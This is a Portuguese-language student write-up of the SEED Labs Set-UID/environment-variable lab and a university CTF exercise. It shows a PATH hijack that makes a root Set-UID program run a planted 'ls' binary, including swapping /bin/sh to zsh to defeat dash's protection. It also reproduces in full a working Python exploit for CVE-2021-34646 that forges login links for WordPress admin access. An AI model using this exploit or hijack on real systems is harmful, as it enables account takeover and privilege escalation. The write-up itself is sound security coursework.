

# SEED Labs – Environment Variable and Set-UID Program Lab

## Task 1

Nesta tarefa observamos o comportamento das funções `printenv` e `env` - imprimem todas as variáveis de ambiente do sistema - e manipulamo-las, adicionando e eliminando variáveis, através dos comandos `export` e `unset`, respetivamente.

```bash
[10/07/22]seed@VM:~/.../Environment_Variable_and_SetUID$ printenv PWD
/home/seed/seed-labs/category-software/Environment_Variable_and_SetUID
[10/07/22]seed@VM:~/.../Environment_Variable_and_SetUID$ export NEW_VAR="hello world"
[10/07/22]seed@VM:~/.../Environment_Variable_and_SetUID$ printenv NEW_VAR
hello world
[10/07/22]seed@VM:~/.../Environment_Variable_and_SetUID$ unset NEW_VAR
[10/07/22]seed@VM:~/.../Environment_Variable_and_SetUID$ printenv NEW_VAR
[10/07/22]seed@VM:~/.../Environment_Variable_and_SetUID$ 
```

## Task 2

O código em `myprintenv.c` imprime a lista das variáveis de ambiente do child process e o output foi guardado no ficheiro `file`. Depois das alterações sugeridas, a lista das variáveis de ambiente do parent process foi guardada no ficheiro `file2`.

Concluímos que os child processes herdam as variáveis de ambiente dos parent processes. O comando `diff` não teve qualquer output, o que significa que as variáveis de ambiente são as mesmas (ficheiros resultantes do output são iguais para ambos os processos).

```bash
[10/08/22]seed@VM:~/.../Labsetup$ diff file file2
[10/08/22]seed@VM:~/.../Labsetup$ 
```

## Task 3

Na primeira compilação, quando o 3º parâmetro (`envp[]`) da função `execve` é **NULL**, não passamos ao novo programa (que vai correr dentro do processo atual) nenhuma variável de ambiente, não resultando qualquer output do programa `myenv.c`. Concluímos então que o novo programa não herda automaticamente as variáveis de ambiente e estas devem ser passadas através do 3º argumento (`envp[]`), como é especificado na entrada do manual (`man execve`).

Na 2ª compilação podemos confirmar que as variáveis de ambiente foram passadas do programa inicial para o novo programa, ao chamar `execve("usr/bin/env", arg, environ)`.

## Task 4

Nesta tarefa, pudemos confirmar que a função system usa a função `execl`, de forma a executar `"bin/sh"`, e `execl` chama `execve`, passando-lhe o array com as variáveis de ambiente. Assim, chamando a função `system`, as variáveis de ambiente são passadas ao novo programa.

## Task 5

```bash
[10/08/22]seed@VM:~/.../Labsetup$ a.out > file
[10/08/22]seed@VM:~/.../Labsetup$ export PATH=/bin
[10/08/22]seed@VM:~/.../Labsetup$ export LD_LIBRARY_PATH=teste
[10/08/22]seed@VM:~/.../Labsetup$ export ANY_NAME=teste
[10/08/22]seed@VM:~/.../Labsetup$ ./a.out > file2
[10/08/22]seed@VM:~/.../Labsetup$ diff file file2
7a8
> ANY_NAME=teste
45c46
< PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.
---
> PATH=/bin
[10/08/22]seed@VM:~/.../Labsetup$ printenv LD_LIBRARY_PATH
teste
```
Verificámos que as variáveis de ambiente **PATH** e **ANY_NAME** foram passadas ao Set-UID child process ao contrário da **LD_LIBRARY_PATH**. Podemos concluir que algumas variáveis de ambiente são ignoradas pelo dynamic linker ao correr um programa Set-UID com o proprietário root. **LD_LIBRARY_PATH** indica ao dynamic linker onde procurar shared libraries que o programa faz referência.

## Task 6 

Alterando a variável de ambiente **PATH** como sugerido e como o programa Set-UID executa comandos que utilizam o caminho relativo, o nosso programa `ls` em `/home/seed` irá ser executado em vez do suposto `/bin/ls/`.

my_ls.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main(){
    printf("my_ls %d\n", geteuid());
    system("ls");
    return 0;
}
```

Nota: "geteuid() returns the effective user ID of the calling process."

ls.c
```c
#include <stdio.h>
#include <unistd.h>

int main(){
    printf("Malicious code.\n");
    printf("ls: %d\n", geteuid());
    return 0;
}
```

```bash
[10/03/22]seed@VM:~$ export PATH=/home/seed:$PATH
[10/03/22]seed@VM:~$ gcc my_ls.c -o my_ls
[10/03/22]seed@VM:~$ sudo chown root my_ls
[10/03/22]seed@VM:~$ sudo chmod 4755 my_ls
[10/03/22]seed@VM:~$ my_ls
my_ls.c 0
Desktop    Downloads  Music  my_ls.c   Public	  Videos
Documents  ls.c       my_ls  Pictures  Templates
[10/03/22]seed@VM:~$ gcc ls.c -o ls
[10/03/22]seed@VM:~$ my_ls
my_ls.c 0
Malicious code.
ls: 1000
```

Como se pode ver, conseguimos executar um programa escrito por nós no lugar do comando `ls`. Ao observar o valor devolvido pela função `geteuid()` percebemos que o nosso programa `ls` não tem privilégios root (UID != 0), ao contrário do programa `my_ls.c`. Nesta máquina virtual, `bin/sh` é um link simbólico para `bin/dash`, e este programa põe em prática uma medida de segurança que não permite que o mesmo seja corrido como um processo Set-UID, mitigando neste caso a vulnerabilidade que encontramos. No entanto, ao criar um link /bin/sh para /bin/zsh (comando `$ sudo ln -sf /bin/zsh /bin/sh`), onde essa medida de segurança não existe, o nosso programa `ls` tem privilégios root (UID == 0).

```bash
[10/08/22]seed@VM:~$ sudo ln -sf /bin/zsh /bin/sh
[10/08/22]seed@VM:~$ my_ls 
my_ls 0
Malicious code.
ls: 0
```

# CTF - Week 4

## Task 1

Na primeira tarefa, fizemos o reconhecimento, recolhendo os seguintes dados que poderiam ser importantes para encontrar e explorar vunerabilidades:
- Versão do WordPress 5.8.1
- Plugins instalados: 
    - WooCommerce plugin 5.7.1
    - Booster for WooCommerce plugin 5.4.3
- Possíveis users:
    - admin
    - Orval Sanford

Com um pouco de pesquisa, descobrimos que havia uma vulnerabilidade na vesão 5.4.3 do Booster for WooCommerce plugin, em que seria possível ganhar acesso admin no site. O respetivo CVE é o CVE-2021-34646.

## Task 2

Tendo já descoberto o CVE, fomos procurar por exploits, tendo encontrado um exploit " WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass ". Fizemos download do exploit, que tinha o seguinte código:

```# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Seguindo as intruções do código encontramos o seguinte:



Experimentando os links que são gerados em cima, conseguimos então ter acesso admin ao site.
De seguida, fomos ao link http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php, onde encontramos a segunda flag.


 
